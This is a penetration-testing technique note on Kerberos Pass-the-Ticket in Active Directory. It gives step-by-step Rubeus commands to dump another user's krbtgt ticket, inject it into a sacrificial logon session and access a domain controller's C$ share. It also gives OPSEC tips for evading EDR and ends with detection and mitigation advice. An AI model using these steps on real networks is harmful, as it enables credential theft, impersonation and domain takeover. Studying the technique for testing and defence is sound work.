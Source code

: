 ```yaml
---
tags:
  - Authenticated
  - Elevated
  - Kerberos
  - Lateral-Movement
  - AD
  - type/technique
  - tactic/TA0008
  - technique/T1550003
  - stage/lateral-movement
  - os/windows
  - tool/rubeus
  - tool/klist
aliases:
  - Pass the Ticket
  - PtT
  - Steal or Forge Kerberos Tickets
---
```

## Technique
___
Pass-the-Ticket (PtT) is a lateral movement technique that uses a stolen Kerberos ticket to authenticate to systems and access resources as the impersonated user. This attack bypasses the need to extract credentials from protected processes like LSASS, making it effective in hardened environments where credential dumping is monitored or prevented.

The attack leverages a stolen Ticket Granting Ticket (TGT) or a service ticket (TGS). An attacker can use this ticket from a different machine to request new service tickets from the Domain Controller and gain access to network resources, effectively impersonating the user without ever knowing their password.

## Prerequisites
___

**Access Level:** Administrative rights are required on the source machine to dump Kerberos tickets from memory, as they belong to other users' logon sessions.

**System State:** The attacker must have a foothold on a domain-joined machine where a target user is currently logged in or has an active Kerberos ticket cached.

**Information:** The attacker needs to identify a valid Kerberos ticket in memory to steal.

**Misc**: Your system time must be synced with the DC. If your time is too skewed, the ticket will be considered invalid.

## Considerations
___

**Impact**

Successful PtT allows an attacker to move laterally across the network and access any resources the impersonated user has permissions for. If the stolen ticket belongs to a Domain Administrator, the attacker gains full control over the domain.

!!! alert "DANGER"
	**Sacrificial Processes:** It is critical to inject stolen tickets into a "sacrificial process" rather than overwriting the ticket of an existing logon session. Overwriting a ticket for a critical process (like `SYSTEM$`) or a service can cause an outage, as the service may not be able to re-authenticate until it is restarted. Using a sacrificial process creates a new, isolated logon session for the ticket. While this is safer, creating a new logon session (`LOGON_TYPE = 9`) is an Indicator of Compromise (IOC) that can be detected.

**OPSEC**

- **Tooling Footprint:** Executing tools like `Rubeus.exe` from disk creates obvious IOCs (process name, file hash, arguments) for EDR. Prefer in-memory execution or integrated C2 capabilities to avoid detection.

- **Logon Artifacts:** Creating a sacrificial process generates a detectable **`LOGON_TYPE = 9`** event. This is a direct trade-off between preventing service outages and maintaining stealth.

- **Suspicious Service Requests:** After passing a ticket, the host's requests for new service tickets can appear abnormal.

## Execution
___

**Create a Sacrificial Process**

To avoid overwriting existing tickets and potentially causing service disruptions, create a new process with its own logon session. Rubeus can create this process, which will be used for ticket injection. The `/show` flag makes the new command window visible.

```powershell
.\Rubeus.exe createnetonly /program:"C:\Windows\System32\cmd.exe" /show
```
The output provides the Logon ID (LUID) of the new session. Save this for later.


**Identify TIckets** (In original session)

```powershell
.\Rubeus.exe triage
```

Once a target ticket is identified (e.g., a ticket for `admin@DOMAIN.LOCAL` with the service `krbtgt`), save its LUID.


**Dump the target ticket with its LUID** (In original session)

```powershell
.\Rubeus.exe dump /luid:0x89275d /service:krbtgt /nowrap
```

This command outputs the user's ticket in Base64 format.

**Pass the Ticket (PTT)** (In **Sacrificial Process**)

inject the stolen ticket into the current logon session. The `/ptt` flag passes the ticket directly into memory.

```cmd
Rubeus.exe renew /ticket:doIFVjCCBVKgAwIBBaEDA<SNIP> /ptt
```

Rerun `klist` to confirm that the ticket for the target user is now in our current session.

```cmd
klist
```

The output should now show the impersonated user's ticket. With this ticket in memory, any network action you perform will be on behalf of that user. For example, accessing a Domain Controller's C$ share.

```cmd
dir \\dc01\c$
```
Windows will automatically use the injected TGT to request a TGS for the `cifs/dc01` service and grant you access.

## Cleanup Considerations
___

Terminating the sacrificial process will destroy the associated logon session and the injected tickets.

## Detection & Mitigation
___

#### Detection

- Monitor for process creation events associated with `LOGON_TYPE = 9` (New Credentials), which tools like Rubeus use to create sacrificial processes.
    
- Audit for Kerberos service ticket requests (Event ID 4769) originating from unusual hosts or at anomalous times.
    
- Network traffic analysis can potentially identify a ticket being used from an IP address not associated with the legitimate user.

#### Mitigation

- **Limit Admin Privileges:** Restricting local administrator rights prevents attackers from being able to dump tickets from other users' sessions on a machine.
    
- **Protected Users Group:** Add high-privilege accounts to the "Protected Users" group in Active Directory. This enforces security controls that make it much harder to steal or use their tickets, such as disabling credential caching.
    
- **Microsoft Defender for Identity:** Can detect anomalous ticket usage across the network, which is a key indicator of a Pass-the-Ticket attack.